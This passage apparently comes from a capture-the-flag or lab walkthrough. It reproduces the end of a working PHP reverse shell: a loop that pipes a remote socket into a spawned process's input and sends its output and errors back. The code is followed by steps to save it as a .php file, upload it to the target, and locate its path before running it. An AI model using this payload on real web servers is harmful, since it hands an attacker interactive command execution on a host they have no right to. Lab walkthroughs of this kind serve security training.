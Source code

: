 ```
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Save it as `.php` file.

Upload it. You should see the confirmation.

![shell](./Screenshots/baseshell2.png)

Our `reverse shell` file is uploaded. Before we execute it, we have to determine its exact path.
